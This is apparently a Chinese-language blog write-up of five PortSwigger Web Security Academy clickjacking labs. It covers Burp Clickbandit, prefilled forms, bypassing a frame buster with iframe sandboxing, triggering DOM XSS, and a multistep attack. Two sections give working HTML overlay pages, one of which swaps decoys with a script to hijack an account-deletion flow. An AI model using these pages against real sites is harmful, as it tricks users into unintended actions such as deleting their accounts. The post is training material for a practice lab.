+++
title = "PortSwigger Clickjacking Labs 通关笔记"
date = 2026-11-20T19:37:00+08:00
draft = false
tags = ["Clickjacking", "PortSwigger", "Web安全"]
categories = ["渗透测试"]
summary = "PortSwigger Web Security Academy Clickjacking 实验通关记录：Burp Clickbandit、表单预填、frame buster 绕过、DOM XSS 与多步点击劫持。"
ShowToc = true
TocOpen = false
+++

> 环境：Burp Suite Community Edition · 靶场：PortSwigger Web Security Academy ｜ 进度：5 题全完成

## 写在前面

Clickjacking 利用的是“页面被嵌入 iframe 后，用户看不到真实界面，却以为自己点的是诱饵内容”。核心三要素是：目标页面可被嵌入、iframe 足够透明、诱饵位置与真实按钮对齐。

这一篇按实验顺序记录 Burp Clickbandit 的用法、表单预填、frame buster 绕过、DOM XSS 联动和多步点击劫持。

## 实验清单

| # | 实验 | 状态 |
|---|------|------|
| 1 | 带 CSRF token 的基础点击劫持 | ✅ |
| 2 | 通过 URL 参数预填表单 | ✅ |
| 3 | 绕过 frame buster | ✅ |
| 4 | 点击劫持触发 DOM XSS | ✅ |
| 5 | 多步点击劫持 | ✅ |

---

## 1. Basic clickjacking with CSRF token protection



最基础的点击劫持，用 Burp 提供的 Burp Clickbandit 生成 PoC。



把生成的脚本复制到目标页面的控制台执行。



为了避免在选择点击位置时误删自己的账号，可以先点 `Disable click actions`，或者在 Burp 中开启拦截，然后再点 `Start`，依次点击需要劫持的位置，最后点 `Finish`。



用 `-` / `+` 调整大小，用 `Toggle transparency` 调整原页面的透明度；确认位置后点 `Save` 保存，再把生成的内容放进恶意页面发给受害者。



注意 `my-account` 页面默认会带上当前用户的 `id` 参数，需要把它删掉，否则其他账号访问时会失败。

## 2. Clickjacking with form input data prefilled from a URL parameter



与上一题类似，只是需要在 URL 中加入 `email` 参数，让表单自动预填。



## 3. Clickjacking with a frame buster script



这一题的页面用 JavaScript 做了 frame buster，禁止自己被嵌入 iframe。因此要在 iframe 的 `sandbox` 属性里禁用脚本，这样 Clickbandit 也无法使用。

改为手写恶意页面：把目标页面放在上层并设为透明，诱饵内容放在下层；在需要点击的位置放 `Click me`。可以直接用 PortSwigger 官方给出的模板修改：

```html
<head>
  <style>
    #target_website {
      position: relative;
      width: 128px;
      height: 128px;
      opacity: 0.00001;
      z-index: 2;
    }
    #decoy_website {
      position: absolute;
      width: 300px;
      height: 400px;
      z-index: 1;
    }
  </style>
</head>
...
<body>
  <div id="decoy_website">
    ...decoy web content here...
  </div>
  <iframe id="target_website" src="https://vulnerable-website.com">
  </iframe>
</body>
```

先把目标页面的透明度调高，方便观察；再调整诱饵位置，直到和真实按钮重合。



确认位置后把透明度改回接近 0，再发给受害者。

## 4. Exploiting clickjacking vulnerability to trigger DOM-based XSS



这一题要求诱导受害者点击，触发 `print()`。进入题目可以看到一个提交反馈的功能。



查看源码可以发现，`name` 参数会回显到提交后的页面上。



测试后发现这里没有对输入做过滤。



同时，参数可以通过 GET 传入并直接填入表单。



后面的利用方式与前面一致：用 iframe 嵌入带 payload 的反馈页面，诱导受害者点击。

## 5. Multistep clickjacking



这一题与之前类似，只是需要两个诱饵：第一个点击“删除账号”，第二个点击随后弹出的确认框。

按照官方做法，两个诱饵同时显示在页面上即可。这里尝试只显示第一个，点击后再显示第二个：给 iframe 添加 `load` 事件，检测到第二次加载时隐藏第一个诱饵，显示第二个。

```html
<head>
  <style>
    #target_website {
      position: relative;
      width: 1700px;
      height: 1600px;
      opacity: 0.0000001;
      z-index: 2;
    }
    #decoy_website1 {
      position: absolute;
      top: 535px;
      left: 300px;
      z-index: 1;
    }
    #decoy_website2 {
      position: absolute;
      top: 330px;
      left: 460px;
      z-index: 1;
      display: none;
    }
  </style>
</head>
<body>
  <div id="decoy_website1">
    Click me first
  </div>
  <div id="decoy_website2">
    Click me next
  </div>
  <iframe id="target_website" src="https://0a0900130311f82c8119ded2006e00ad.web-security-academy.net/my-account">
  </iframe>
  <script>
    let loads = 0;
    document.getElementById('target_website').addEventListener('load', () => {
      loads++;
      if (loads === 2) {
        document.getElementById('decoy_website1').style.display = 'none';
        document.getElementById('decoy_website2').style.display = 'block';
      }
    });
  </script>
</body>
```

为了展示，这里把透明度设为 0.1。




